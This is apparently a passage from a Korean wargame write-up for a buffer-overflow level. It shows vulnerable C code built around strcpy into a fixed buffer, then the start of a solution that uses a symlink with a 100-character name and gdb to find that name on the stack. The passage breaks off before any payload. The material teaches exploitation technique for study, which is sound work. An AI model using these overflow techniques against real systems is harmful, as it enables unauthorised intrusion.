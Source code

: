 ``` bash2
	int i, saved_argc;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	// argc saver
	saved_argc = argc;

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

	// ultra argv hunter!
	for(i=0; i<saved_argc; i++)
		memset(argv[i], 0, strlen(argv[i]));
}
```

### Solution

``` bash2
cp skeleton skeleto2
ln -s skeleto2 `python -c 'print "A"*100'`
```
을 통해 gdb로 A*100을 분석해보자.

``` gdb
(gdb) b *main+368
Breakpoint 1 at 0x8048670
(gdb) b *main+6  
Breakpoint 2 at 0x8048506
(gdb) r 123
Starting program: /home/vampire/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 123

Breakpoint 2, 0x8048506 in main ()
(gdb) x/x $ebp
0xbffffa38:	0xbffffa58
(gdb) x/x $ebp+0xc
0xbffffa44:	0xbffffa84
(gdb) x/wx 0xbffffa84
0xbffffa84:	0xbffffb80
(gdb) x/s 0xbffffb80
0xbffffb80:	 "/home/vampire/", 'A' <repeats 100 times>
```